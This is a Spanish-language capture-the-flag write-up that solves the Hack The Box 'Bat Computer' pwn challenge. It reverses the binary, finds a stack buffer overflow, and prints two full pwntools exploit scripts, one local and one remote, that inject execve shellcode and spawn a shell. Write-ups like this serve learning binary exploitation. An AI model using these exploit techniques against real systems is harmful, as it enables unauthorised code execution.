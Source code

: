 ```yaml
---
title: Bat Computer - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

En esta ocasión, les traigo la resolución de un BoF en un binario de 64-bit. El desafío como tal, consiste en un programa que te da dos opciones a elegir:

1. **Track Joker:** Sólo imprime un texto con una dirección de memoria (`0x7fffffffe1a4`) que hasta ahora desconocemos.
2. **Chase Joker:** Esta opción le solicita una contraseña al usuario la cual le brinda supuesto acceso al “BatMobile”.

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled.png)

Posterior a esto procedemos a reversear el código con Ghidra donde identificamos la contraseña que el programa nos solicita.

Es importante mencionar que el binario se encuentra *[stripped](https://en.wikipedia.org/wiki/Strip_(Unix))*, por lo cual, en primera instancia es algo difícil de identificar los nombres de las variables y funciones:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%201.png)

Al momento de probar la contraseña, el programa la acepta y le solicita al usuario “comandos de navegación”, los cuales al ser ingresados no tienen mucha relevancia:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%202.png)

Luego de aplicar reversing sobre el código, ahora se logra entender más la sintaxis y el flujo principal del programa:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%203.png)

En este punto identificamos un *buffer overflow* en la variable `nav_command`, que corresponde a los “comandos de navegación”, debido a que esta tiene asignado `76 bytes` de memoria, sin embargo, al momento de leer el contenido de dicha variable con la función `read` esta acepta `137 bytes`. Por lo cual queda toda una región de memoria disponible para sobrescribir registros.

```c
int main(void) {
		...
		undefined nav_command [76]
		...
		read(0,nav_command,1337);
		...
}
```

Para validar esto, realizamos una prueba con la herramienta `gdb-gef`. 

1. Primeramente, creamos una cadena de `137 bytes`. 
2. Luego arrancamos el programa y seleccionamos la opción `2`, donde primero colocamos la contraseña del usuario. 
3. Posterior a esto, el programa solicita los “comandos de navegación” donde ingresamos la cadena de `137 bytes` con el objetivo de sobrescribir la memoria que tiene asignada la variable `nav_command`, lo cual corresponde a `76 bytes`.
4. Hecho esto, el programa vuelve a solicitarle una opción al usuario, lo cual sólo ocurre porque este se encuentra en un bucle infinito. Para forzar al programa a retornar debemos colocar un número que no corresponda a `1`, o `2`. De esta manera, como la dirección de retorno ha sido sobrescrita, el programa arrojará un error `Segmentation fault` y nos permitirá validar la existencia del BoF. 

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%204.png)

Al listar el offset, con la instrucción `pattern offset`, se identifica que se deben introducir `84 bytes` para sobrescribir la dirección de retorno:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%205.png)

Antes de crear el exploit, es importante checar las protecciones que posee el binario. 

Como se muestra en imagen, el programa no cuenta con `NX (no-execute)`, ni `Stack Canaries`, lo cual significa que a la hora de explotar el *buffer overflow* podemos ejecutar código de manera arbitraria en la pila:  

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%206.png)

De esta forma, empezamos creando el exploit de la siguiente manera:

```python
#!/usr/bin/python3

from pwn import process, p64

if __name__ == '__main__':
    # Starting process
    elf = process('./batcomputer')

    # Extracting leaked memory address from "nav_command" variable
    elf.recvuntil(b'> ')
    elf.sendline(b'1')
    result_option1 = elf.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode -> shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    elf.recvuntil(b'> ')
    elf.sendline(b'2')
    elf.recvuntil(b'password: ')
    elf.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    elf.recvuntil(b'commands: ')
    elf.sendline(payload)

    # Generating call to the overwrited return address
    elf.recvuntil(b'> ')
    elf.sendline(b'3')

    # Getting an interactive shell
    elf.interactive()
```

Al ejecutar el exploit vemos que este nos ha entregado una shell completamente interactiva, lo cual significa que nuestro shellcode se ejecutó de manera exitosa al explotar el *buffer overflow*:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%207.png)

Habiendo hecho esto, podemos adaptar el exploit para explotar el desafío de HackTheBox de manera remota:

```python
#!/usr/bin/python3

from argparse import ArgumentParser
from pwn import remote, p64

if __name__ == '__main__':
    parser = ArgumentParser()
    parser.add_argument('--host', type=str, required=True, help='Remote host (IP/Domain)')
    parser.add_argument('--port', type=int, required=True, help='Remote port')
    args = parser.parse_args()

    # Starting connection
    connection = remote(args.host, args.port)

    # Extracting leaked memory address from "nav_command" variable
    connection.recvuntil(b'> ')
    connection.sendline(b'1')
    result_option1 = connection.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    connection.recvuntil(b'> ')
    connection.sendline(b'2')
    connection.recvuntil(b'password: ')
    connection.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    connection.recvuntil(b'commands: ')
    connection.sendline(payload)

    # Generating calling to the overwrited return address
    connection.recvuntil(b'> ')
    connection.sendline(b'3')

    # Getting an interactive shell
    connection.interactive()
```

Una vez ejecutado, logramos obtener una terminal interactiva en el servidor, donde podemos listar el contenido del archivo `flag.txt`:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%208.png)